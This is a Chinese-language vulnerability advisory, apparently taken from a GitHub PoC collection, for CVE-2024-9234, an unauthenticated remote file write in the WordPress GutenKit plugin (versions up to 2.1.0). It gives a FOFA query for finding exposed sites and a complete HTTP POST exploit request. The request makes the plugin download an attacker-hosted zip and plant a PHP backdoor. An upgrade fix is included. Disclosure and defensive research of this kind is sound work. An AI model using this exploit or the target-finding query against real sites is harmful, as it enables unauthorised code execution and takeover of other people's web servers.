

# Wordpress GutenKit 插件 远程文件写入致RCE漏洞(CVE-2024-9234)

# 漏洞描述

Wordpress GutenKit 插件 存在远程文件写入漏洞，未经身份验证的远程攻击者，可利用此漏洞远程加载远程文件上传至系统插件目录，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

GutenKit <= 2.1.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/gutenkit-blocks-addon"

构造压缩包，上传到测试vps

POC/EXP：

POST /wp-json/gutenkit/v1/install-active-plugin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

plugin=http://127.0.0.1/rce.zip

/wp-content/plugins/rce.php

# 修复方案

关闭互联网暴露面或接口设置访问权限

目前该漏洞已经修复，受影响用户可升级到WordPress GutenKit  2.1.2或更高版本。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
